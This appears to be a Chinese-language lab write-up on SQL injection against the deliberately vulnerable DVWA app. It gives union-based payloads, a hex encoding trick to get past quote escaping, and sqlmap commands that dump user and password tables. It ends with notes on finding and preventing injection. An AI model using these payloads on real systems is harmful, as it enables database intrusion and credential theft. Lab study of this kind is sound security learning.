


SQL Injection:SQL注入是指攻击者通过注入恶意的SQL语句，破坏SQL语句的结构，进而达到执行恶意SQL语句的目的。
本次学习通过两种方式：手工注入、Sqlmap工具注入
手工注入
抽象来讲，分为两步：
- 找注入点(在哪里注入)
- 构造注入内容(如何注入)
下面对四种级别的代码进行分析：
Low
1 |
|
代码分析：
服务器端的low.php并没有对客户输入的id进行任何检查与过滤，直接将SQL语句的执行结果显示给客户端。
漏洞利用：
先明确一下最终效果：本次SQL注入攻击的目的是爆库，通过SQL注入，找到dvwa网站所有的用户名及密码。
- 判断是否存在注入，注入是字符型还是数字型
字符型和数字型的区别在于是否存在引号，因此通过输入1’进行注入，如下图：
由上图可以判定id为注入点，且属于字符型注入，因此可以通过添加引号结束之前的SQL语句并在后面加上payload，最后在结尾通过#(或者’- - ‘ 注意后面有个空格 )注释掉代码中原有的引号(判断SQL注入类型的目的就是为了有针对性的结束原有语句)。
- 猜解SQL查询语句中的字段数
为什么要猜解字段数呢，因为想要爆库要通过Union查询，先来了解一下Union查询吧：
在大多数开发中，使用一条SELECT查询就会返回一个结果集。如果，我们想一次性查询多条SQL语句，并将每一条SELECT查询的结果合并成一个结果集返回。就需要用到Union操作符，将多个SELECT语句组合起来，这种查询被称为并（Union）或者复合查询。
我的理解呢，就像命令注入中的；&这类连接符，命令注入用到了连接符（或者管道符）；异曲同工，SQL注入也利用了“连接符”（Union联合查询）。
组合查询适用于下面两种情境中：
从多个表中查询出相似结构的数据，并且返回一个结果集
从单个表中多次SELECT查询，将结果合并成一个结果集返回。
不管是从单个表还是多个表，Union查询都是返回一个结果集。因此它就有了下面的规则：
1.Union必须由两条或者两条以上的SELECT语句组成，语句之间使用Union链接。
2.Union中的每个查询必须包含相同的列、表达式或者聚合函数，他们出现的顺序可以不一致（这里指查询字段相同，表不一定一样）
3.列的数据类型必须兼容，兼容的含义是必须是数据库可以隐含的转换他们的类型
(上述如果觉得太抽象，请详见具体案例 )
经过第二条规则，我们需要知道前一个select所查询的字段数目才能正确的进行Union查询。那么如何得知呢？通过order by试试……
先看一下order by的语法：(找教程居然没找到，W3c也太不靠谱了，最后还是引用师父博客里面的吧)
有一个小tips是：
我们除了使用字段名来作为order by的条件外，还可以使用数字。1 表示的第一个字段，2表示的第二个字段
如此类推就可以了，但是当不存在那个字段的时候，就会产生这样的错误。
unknown column name xx
所以尝试通过order by 判断前一个select语句的字段数，当输入1' order by 3 -- 时，如下图：
由此判断前一个select语句的查询字段数为2，但是这种方法只适用于字段数少的情况，如果字段数目很大，这样一次次的去猜显然是不受用的，因此这部分内容还有续集……（加粗一下~~，免得我以后忘了 ;-) ）
当输入1' union select 1,2--时，显示效果:
第二个select语句是可控且结果是可显示的，因此可以利用一些mysql函数获取数据库的相关信息，如version(),database()等。
(3) 确定显示的字段顺序（实在看不出在这次攻击中字段顺序有什么用，所以略过）
(4) 获取当前数据库
输入1' union select database(),2 #，显示结果为:

可知数据库名称为dvwa，同理获取当前的数据库版本，显示为：5.7.18-0ubuntu0.16.04.1，可知为mysql5.7，这个版本信息也是有用的，因为有些新函数只能用于高版本的mysql查询中。
(5) 获取数据库中的表
如何根据数据库得知其中的数据表呢，这就需要了解mysql的一个小知识点了，每一个mysql都存在一个系统库information_schema，里面有mysql的“骨架”即所有的数据库，数据表，相应的字段名(当然字段内容不在里面哈)，比如：
因此可以构造payload:1’ union select TABLE_NAME,2 from information_schema.TABLES where table_schema=’dvwa’#:
可知dvwa中有两张数据表，users和guestbook。很明显，users的内容更令人好奇，那就继续一探究竟吧……
(6) 获取表中的字段名
继续在mysql的”骨架”(information_schema)中寻找数据表对应的字段，输入1' union select column_name,2 from information_schema.columns where table_name=7573657273 #：
哇~~字段还挺多的，不过我们可是很有原则的，有user和password就够了……
(7) 下载(显示)数据
有了数据表名和字段名，接下来就可以一探究竟了，输入1' union select user,password from users #:
附上额外福利：md5免费解码
Medium
1 |
|
代码分析:
(1) 改用POST方式提交数据
(2) 对id进行了mysqli_real_escape_string转义处理
1 | $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id); |
mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。(包括’,”,\n,\r,\x00,\x1a)，但是细看medium.php中SQL语句为：
1 | $query = "SELECT first_name, last_name FROM users WHERE user_id = $id;"; |
数字型注入
(3) 使用下拉列表选择id值
结合medium.php,查看index.php发现：medium等级了为了防止用户直接输入使用了下拉表单，然而这个措施，真心感觉没有什么卵用，毕竟GET、POST方式提交的数据总有办法间接修改的。
漏洞利用：
(1) 首先依然是判断注入类型为数字型or字符型：
先通过单引号试一下：
发现单引号被转义了，看了代码的我们自然知道具体是mysqli_real_escape_string搞的鬼，不过现在先抛弃代码，按照正常的攻击思路来思考：大概就是addslashes等类似函数的转义作用，继续测试一下，看看自己的猜测是否准确，由于addslashes转义的字符有（单引号（’） 双引号（”） 反斜杠（\） NULL）,分别测试双引号、&、-等其他字符，发现双引号被转义，但是&等其他字符不会。
注意注意！前方高能……
既然只是对id进行了转义处理，如果是字符型注入，是不应该报错的，可以在数据库单独测试一下：
由此我们可以判断肯定不是字符型注入，（id两端并无引号包围，因为有引号的会查询成功，不会出现上述的报错），But，有一个小疑问，为什么不是1还会查询成功呢？这涉及到的是MySQL的强制类型转换，查看users表结构：
user_id为int类型，所以在查询过程中mysql将1\’强制类型转换为了int类型，（可以在mysql中测试输入id=’1abdc’进行验证，,如果id=’a1dc’这种，mysql的强制类型将转换为0）。
== 膜拜上述的细节推敲（可见大神功力之深厚），~~ 尴尬 ~~，并不是我自己思考出来的，（对于我，猜测为转义之后，就会去进行数字型字符的确认加加减减了）……
进一步确认是否为数字型注入：
若为数字型，是可以进行这样的算法运算的：
尝试一下吧……
（PS：但是这里需要注意的是，在URL中“+”是有特别含义，它表示的是空格。所以在URL中我们需要使用“%2B”来代替“+”。）
binggo…… 成功啦，确定为数字型注入。
构造payload的思路同字符型注入，但是要绕过单引号的转义，比如：1 union select column_name,2 from information_schema.columns where table_name='users'
用十六进制可以绕过引号（详见）
hex：可以用HEX()函数将一个字符串或数字转换为十六进制格式的字符串
unhex：把十六进制格式的字符串转化为原来的格式
除了使用编码方式绕过单引号，还可以通过使用MySQL函数，如：’dvwa’数据库名用database()代替。
其余思路同字符型注入，不再赘述。
High
1 |
|
代码分析：
突然感觉我好像之前学习的思路错了，不应该先分析代码的，看完代码自己就知道该怎么攻击了，却锻炼不了什么能力，所以应该不看代码，黑盒测试，一步步尝试思考才对……，不过既然已经看了，就先写一下high.php关于避免SQL注入所做的努力吧。
(1) 查询提交页面和显示结果页面不是同一个。（所以id值需要存入SESSION中）
(2) 修改$query语句，增加limit 1限制输出条目。黑盒注入的话确实可以忽悠一下子…… 然而真是只是一下下~~
看完代码，通过burpsuite修改session-input.php提交的id值：（这就是白盒测试吧）
This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
果然high level跟low level很像，只是转换了一下输入方式。但还是有些作用的：
需要特别提到的是，High级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转，这样做的目的是为了防止一般的sqlmap注入，因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入
漏洞利用：
输入1’报错，输入1’ #(或者1’ or 1=1)却返回id为1的结果，说明是字符型注入，且单引号后面还有其他的限制条件，其余思路同low.php
最后注入结果同上代码分析；-）
Impossible
1 |
|
代码分析：
可以看到，一方面：Impossible级别的代码采用了PDO技术，划清了代码与数据的界限(bindParam)，有效防御SQL注入；另一方面：只有返回的查询结果数量为1时，才会成功输出，这样就有效预防了“脱裤”（偷偷查了一下，谐音：脱库），Anti-CSRFtoken机制的加入了进一步提高了安全性。
代码挖掘与防御
好啦，又到了“一年一度”的开脑洞自问自答环节：-）
(1) 我们应该如何从代码层面来挖掘SQL注入漏洞呢？
这里的首要原则是：用户的一切输入都是有害的，或者说是不被信任的。所以漏洞挖掘主要可以从以下两个方面入手：
- 代码中负责获取用户数据的变量，这些变量主要包括：\$_GET、\$_POST、\$_COOKIE、$_SERVER。
- 执行数据库查询操作的函数，如mysqli_query()。
我们可以在代码中对这些变量和函数进行搜索跟踪，从而分析是否存在漏洞。
这里可以使用一款名叫闪电文件搜索的软件来进行查找分析。

从中选取DVWA的登录文件login.php进行分析，如下图：可以发现这里的参数类型是字符型，主要从两个方面采取了防御措施：一是使用mysql_real_escape_string()函数进行过滤，二是在mysql_query()函数之前加了@符号，抑制报错信息。因而这个页面就是相对安全的。
(2) 我们如何在代码层面来防御SQL注入漏洞呢？
这个问题主要从两个方面回答(以后会继续补充……)：
- 字符型防御 ：通过mysqli_real_escape_string等相关函数对特殊字符进行转义（更多相关函数详见PHP安全函数）。
- 数字型防御：简单点的处理：通过is_numeric进行类型判断；复杂一些的处理，使用PDO进一步对类型进行规定。
附： 两者都可以通过限制返回的查询结果、抑制报错信息@等方法进行防御。
Sqlmap工具注入
Low&&Medium
(1) 检测是否存在SQL注入漏洞
需要注意的点：dvwa需要登录才能访问漏洞测试页面，所以使用sqlmap时需要提交登录后的cookie，cookie中有关于dvwa的security level设置属性，确保属性值是low，如下图:
检测存在SQL注入点id(GET),数据库类型为mysql。
(2) 爆数据库
输入:pyhon sqlmap.py -u “http://123.206.28.249/dvwa-khl/vulnerabilities/sqli/?id=1&Submit=Submit#" –cookie=”security=low; PHPSESSID=u378a2cubgvdl8hp5ehare72o6” –dbs，返回结果：
(3) 爆数据表
选择dvwa数据库，输入python sqlmap.py -u “http://123.206.28.249/dvwa-khl/vulnerabilities/sqli/?id=1&Submit=Submit#" –cookie=”security=low; PHPSESSID=u378a2cubgvdl8hp5ehare72o6” -D dvwa –tables

(4) 爆字段
选择users数据表，输入python sqlmap.py -u “http://123.206.28.249/dvwa-khl/vulnerabilities/sqli/?id=1&Submit=Submit#" –cookie=”security=low; PHPSESSID=u378a2cubgvdl8hp5ehare72o6” -D dvwa -T users –columns
(5) 爆字段内容
选择users表中的字段,（突然觉得前面写的都太正经了，画风应该改变一下），哇~~,还可以选择在显示的时候选择是否解密(好吧，其实没什么好大惊小怪的，这个我早就知道 ~~)，输入：python sqlmap.py -u “http://123.206.28.249/dvwa-khl/vulnerabilities/sqli/?id=1&Submit=Submit#" –cookie=”security=low; PHPSESSID=u378a2cubgvdl8hp5ehare72o6” -D dvwa -T users -C “user ,password” –dump
相比手动注入确实是高效很多啦；-）
注：Medium只需要修改cookie即可
High
代码分析
session-input.php:
1 |
|
high.php:
1 |
|
一图胜千言：

查询页面URL： http://127.0.0.1/DVWA-master/vulnerabilities/sqli/session-input.php
回显页面URL： http://127.0.0.1/DVWA-master/security.php
注意查询页面和回显页面不同，所以需要使用second-order参数进行二阶注入。
漏洞利用
将POST请求的数据包保存至/home/e.txt，使用sqlmap进行注入如下图：